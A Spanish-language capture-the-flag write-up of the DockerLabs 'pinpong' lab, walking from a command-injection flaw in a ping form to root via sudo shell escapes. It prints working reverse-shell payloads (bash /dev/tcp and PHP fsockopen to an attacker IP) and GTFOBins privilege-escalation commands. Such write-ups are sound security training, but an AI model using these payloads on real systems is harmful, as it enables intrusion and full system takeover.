___
Tags: #CommandInjection #SUID
___
# Nombre de la máquina

## Información General

**- Dificultad:** Medio <br>
**- Sistema operativo:** Linux <br>
**- Vulnerabilidad explotada.**  command injection, Binario SUID <br>
**- Fecha de resolución:** 26/03/2026 <br>
**- Enlace:** https://dockerlabs.es <br>

## Reconocimiento

**Dockerlabs** nos proporciona la ip de la máquina objetivo **172.17.0.2**

### Ping

Dependiendo del resultado podemos deducir si es una máquina linux o window, por ejemplo:

```
ping -c 1 172.17.0.2
```

**Su ttl es 64. Por tanto, es Linux**

## Enumeración

### Escaneo de puertos abiertos

#### Escaneo de puerto TCP

El comando que uso con nmap es:

```
sudo nmap -p- --open -sS -sC -sV --min-rate 2000 -n -vvv -Pn 172.17.0.2
```

```bash
PORT     STATE SERVICE  REASON         VERSION
80/tcp   open  http     syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
443/tcp  open  ssl/http syn-ack ttl 64 Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.58 (Ubuntu)
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=example.com/organizationName=Your Organization/stateOrProvinceName=California/countryName=US/localityName=San Francisco/organizationalUnitName=Your Unit
| Issuer: commonName=example.com/organizationName=Your Organization/stateOrProvinceName=California/countryName=US/localityName=San Francisco/organizationalUnitName=Your Unit
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2024-05-19T14:20:49
| Not valid after:  2025-05-19T14:20:49
| MD5:     9ba4 3106 4c16 47c8 dc44 cc43 9e96 b3d0
| SHA-1:   5c55 1ab3 9e32 5498 c454 8eb9 e203 a46a 8e7f bd18
| SHA-256: 2fe3 5bde e8de ca86 fa1d 461c fea5 7e14 be28 9ff1 b574 74a7 f1b5 b07b 8f05 3f20
| -----BEGIN CERTIFICATE-----
| MIID4zCCAsugAwIBAgIULigYxnihUEciHsadhZIVB1bHlvowDQYJKoZIhvcNAQEL
| BQAwgYAxCzAJBgNVBAYTAlVTMRMwEQYDVQQIDApDYWxpZm9ybmlhMRYwFAYDVQQH
| DA1TYW4gRnJhbmNpc2NvMRowGAYDVQQKDBFZb3VyIE9yZ2FuaXphdGlvbjESMBAG
| A1UECwwJWW91ciBVbml0MRQwEgYDVQQDDAtleGFtcGxlLmNvbTAeFw0yNDA1MTkx
| NDIwNDlaFw0yNTA1MTkxNDIwNDlaMIGAMQswCQYDVQQGEwJVUzETMBEGA1UECAwK
| Q2FsaWZvcm5pYTEWMBQGA1UEBwwNU2FuIEZyYW5jaXNjbzEaMBgGA1UECgwRWW91
| ciBPcmdhbml6YXRpb24xEjAQBgNVBAsMCVlvdXIgVW5pdDEUMBIGA1UEAwwLZXhh
| bXBsZS5jb20wggEiMA0GCSqGSIb3DQEBAQUAA4IBDwAwggEKAoIBAQDEqLvUG75u
| /h+CCctOKN+mdmVrGB7kj622+bMKv1Nb0tWOkxGJfeTpmofz2F7wYP4G+mgkolsj
| e3Nhzbhuw7jzhHEXTkjaeJdVstODXfr2SO3hzGTFJNf4QAJdidzywO415C6pv/ri
| mZdwBuVTMXRkH/Blz6wInPTx6lPKrHFWmaYnvroa+FyUNFqZpxlKIp/8Ztyi8rQ3
| DOyRGvKD850XJDCtoN8bXBOjNa8aarzC5CM4SJY78WrGYzysrXSrZBQP8ztJnmCN
| gkurONPKidA9q4DbYGzDUrXP2wyPLMgvlwN7hoPDGhldwn6oHJfiMambrOqiNd02
| +4G46l6HNO8bAgMBAAGjUzBRMB0GA1UdDgQWBBRskdiM67+xLIfhKFUDsRTW2iuY
| yzAfBgNVHSMEGDAWgBRskdiM67+xLIfhKFUDsRTW2iuYyzAPBgNVHRMBAf8EBTAD
| AQH/MA0GCSqGSIb3DQEBCwUAA4IBAQAorD07Oh+lrObtJY1cRyMDUdSVzWXqc5C1
| ezcGUsBaRTkbgHNpiAE71aXW6izz+AdFuiadOtJUIZHBbQ4YhrHPGabTeobtSc2W
| 7wg8s7n/PyDVNxPjx6EyNYvANfnQNFSrX4g+Z4ovEmhZP/YiT3L4ChTaB0rkLhmK
| E9aytIGKrh0OqhYD4mZrqCfXcUHpNgRfJQhjCjGdFte4PoPT+nPgua3Hp38sUnGX
| +qrYDZI52+OO6ChEE6Miguz9ji+YdbnPZwpV2mWR2+BWjOgQ5QnSBeorXLjfnLQn
| /a9ezvNvIke18R0FR0AO9/3RX73To5+vo5Bx+fXiREKStlDvh39v
|_-----END CERTIFICATE-----
5000/tcp open  http     syn-ack ttl 64 Werkzeug httpd 3.0.1 (Python 3.12.3)
| http-methods: 
|_  Supported Methods: HEAD POST GET OPTIONS
|_http-title: Ping Test
|_http-server-header: Werkzeug/3.0.1 Python/3.12.3
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

| Open port | Service  | Version                              |
| --------- | -------- | ------------------------------------ |
| 80        | http     | Apache httpd 2.4.58 ((Ubuntu))       |
| 443       | ssl/http | Apache httpd 2.4.58 ((Ubuntu))       |
| 5000      | http     | Werkzeug httpd 3.0.1 (Python 3.12.3) |

## Explotación

### Command injection 

Visitando la pagina http://172.17.0.2:5000/ me encuentro el siguiente panel

<p align="center"> 

</p>

Una posible vulnerabilidad que podemos estar en frente es **command injection** es cuando una aplicación deja que el usuario meta texto que acaba convirtiéndose en comandos del sistema operativo y el servidor los ejecuta como si fueran legítimos.

Por ejemplo: si solo pongo la ip me hace ping, pero... ¿Qué ocurriría si lo concateno con otro comando?

```
172.17.0.2 && whoami
```

<p align="center"> 

</p>

En este caso funcionaría. Por lo tanto, esto me puede llevar a un RCE 

```
172.17.0.2 && bash -c "bash -i >& /dev/tcp/192.168.0.108/4443 0>&1"
```

Preparamos el puerto de escucha 

```
nc -lvnp 4443
```

<p align="center"> 

</p>

## Escalada de Privilegios

### TTY

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

**control z**

```
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
```
___
#### Freddy a Bobby

A continuación iremos pasando de usuario a usuario hasta llegar a root.

```
sudo -l
```

<p align="center"> 

</p>

```
sudo -u bobby /usr/bin/dpkg -l
```

-l : Este parámetro lo que hace es listar 

```
!/bin/bash
```

<p align="center"> 

</p>

Al realizar este comando obtenemos la shell de bobby

<p align="center"> 

</p>

#### Bobby a Gladys

```
sudo -l 
```

<p align="center"> 

</p>

En la pagina de [gtfobins](https://gtfobins.org/gtfobins/php/#shell)

<p align="center"> 

</p>

```
sudo -u gladys /usr/bin/php -r '$sock=fsockopen("192.168.0.108",4447);exec("/bin/sh -i 0<&3 1>&3 2>&3");'
```

Preparamos el puerto de escucha

```
nc -lvnp 4447
```

<p align="center"> 

</p>

#### Gladys a chocolatito

```
sudo -l
```

<p align="center"> 

</p>

```
find / -user chocolatito 2>/dev/null     
```

<p align="center"> 

</p>

Para poder copiar cómodamente tenemos que hacer de nuevo la **TTY**, una vez hecho copiamos este comando:

```
cd /opt
sudo -u chocolatito /usr/bin/cut -d "" -f1 chocolatitocontraseña.txt
```

**-d ""**: Indica el delimitador de campos (lo que separa las columnas).
**-f1**: Muestra **solo el primer campo** (la primera “columna” separada por el delimitador que hayas puesto con `-d`).

<p align="center"> 

</p>

```
su chocolatito
```

<p align="center"> 

</p>

#### Chocolatito a theboss 

```
sudo -l
```

<p align="center"> 

</p>

Volvemos a mirar en [gtfobins](https://gtfobins.org/gtfobins/awk/#shell)

<p align="center"> 

</p>

```
sudo -u theboss /usr/bin/awk 'BEGIN {system("/bin/sh")}'
```

<p align="center"> 

</p>

#### theboss a root

```
sudo -l 
```

<p align="center"> 

</p>

Por última vez, miramos en [gtfobins](https://gtfobins.org/gtfobins/sed/)

<p align="center"> 

</p>

```
sudo -u root /usr/bin/sed -n '1e exec /bin/sh 1>&0' /etc/hosts 
```

<p align="center"> 

</p>

## Conclusión

El laboratorio **pinpong** de la plataforma de **dockerlabs** explotamos la vulnerabilidad **command injection**. Luego, en la **escalada de privilegio** iremos pasando de usuario en usuario hasta llegar al usuario root. Me atrevería decir que este laboratorio es muy divertido.